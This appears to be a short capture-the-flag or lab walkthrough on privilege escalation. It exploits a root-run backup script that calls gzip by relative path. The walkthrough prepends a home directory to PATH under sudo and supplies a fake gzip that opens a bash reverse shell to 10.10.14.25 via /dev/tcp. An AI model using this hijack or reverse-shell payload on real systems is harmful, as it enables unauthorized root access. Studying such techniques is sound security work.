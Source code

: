 Looking at `/opt/scripts/access_backup.sh`:

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

After some research, this looks like a `$PATH` hijacking vulnerability. Write up your own `gzip` to throw a reverse shell and set your path when running the script.

Run:
```bash
$ sudo PATH=/home/m4lwhere:$PATH ./access_backup.sh
```

Where `/home/m4lwhere/gzip` is:
```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.25/31337 0>&1"
```